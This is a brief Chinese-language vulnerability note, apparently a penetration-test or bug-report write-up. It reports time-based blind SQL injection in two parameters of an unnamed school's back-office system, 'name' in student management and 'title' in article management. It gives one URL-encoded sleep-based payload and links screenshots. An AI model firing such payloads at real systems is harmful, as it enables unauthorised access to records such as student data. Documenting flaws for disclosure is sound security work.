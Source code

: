 ### 某学校后台查询接口注入

第一处：学员管理 `name` 参数存在 SQL 注入，延迟三秒

```sql
%20and%20(select%201%20from%20(select(sleep(3-(if((1%3d1)%2c%200%2c%202)))test)%23
```

![](https://pic1.imgdb.cn/item/68aed3d558cb8da5c856d7eb.png)

第二处：官网文章 -> 文章管理 `title` 参数存在 SQL 注入，延迟三秒

![](https://pic1.imgdb.cn/item/68aed44758cb8da5c856d955.png)